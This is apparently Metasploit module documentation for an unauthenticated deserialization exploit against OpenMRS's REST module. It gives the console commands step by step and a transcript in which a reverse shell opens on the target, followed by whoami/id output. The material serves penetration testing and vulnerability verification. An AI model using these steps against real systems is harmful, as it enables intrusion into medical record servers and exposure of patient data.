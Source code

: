 ## Vulnerable Application

  OpenMRS is an open-source platform that supplies
  users with a customizable medical record system.

  There exists an object deserialization vulnerability
  in the `webservices.rest` module used in OpenMRS Platform
  for versions below `v2.24.0`. Unauthenticated remote code
  execution can be achieved by sending a malicious XML payload
  to a Rest API endpoint such as `/ws/rest/v1/concept`.

  Vulnerable versions of the software can be found [here](https://sourceforge.net/projects/openmrs/files/releases/).

  Tested on OpenMRS Platform `v2.1.2` and `v2.21` with Java
  8 and Java 9.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/openmrs_deserialization```
  4. Do: ```set TARGETURI <uri>```
  5. Do: ```set RHOSTS <ip>```
  6. Do: ```run```
  7. You should get a shell.

## Options

  **ForceExploit**

  Overrides the check result and runs the exploit.

## Scenarios

### OpenMRS Platform `v2.1.2`

  ```
  msf5 > use exploit/multi/http/openmrs_deserialization 
  msf5 exploit(multi/http/openmrs_deserialization) > set rhosts 192.168.37.168
  rhosts => 192.168.37.168
  msf5 exploit(multi/http/openmrs_deserialization) > set targeturi /openmrs-standalone
  targeturi => /openmrs-standalone
  msf5 exploit(multi/http/openmrs_deserialization) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/http/openmrs_deserialization) > check
  [*] 192.168.37.168:8081 - The target appears to be vulnerable. OpenMRS platform version: 2.1.2
  msf5 exploit(multi/http/openmrs_deserialization) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Target is running OpenMRS
  [*] Formatting payload
  [*] Sending payload...
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo wKYK4x9ZOHJ37tm7;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket B
  [*] B: "wKYK4x9ZOHJ37tm7\r\n"
  [*] Matching...
  [*] A is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.168:45048) at 2019-11-21 14:13:09 -0600

  whoami
  space
  id
  uid=1000(space) gid=1000(space) groups=1000(space),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
  ```
